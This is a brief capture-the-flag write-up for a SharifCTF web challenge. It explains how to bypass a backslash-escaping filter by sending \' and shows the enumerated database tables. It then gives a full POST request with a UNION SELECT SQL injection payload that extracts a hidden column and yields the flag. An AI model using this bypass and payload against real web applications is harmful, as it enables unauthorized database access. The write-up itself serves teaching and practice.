

# Poor Guy (web, 150p)

URL : http://ctf.sharif.edu:8086/index.php



SQL Injection with single quote replacing ' (single-quote) into \' , so by sending \' it gets replaced into \\' , which will treat backslash as non-special sign and quote as special. After making some enumeration we have found out some more details about DB : 

```
database : book_shop
table : books 
some of the columns :
	book_id
	book_name
	book_serial
	book_isbn
	book_cover
	is_premium
```

Therefore , performing POST request :
```
POST /index.php HTTP/1.1
Host: ctf.sharif.edu:8086
[...]

book_selection=\' or true UNION SELECT 1,2,3,4,5,6,book_serial,8 FROM book_shop.books LIMIT 1 OFFSET 5; #
```

we obtain flag SharifCTF{931b20ec7700a61e5d280888662757af} in the response :
```
[...]

[...]
```
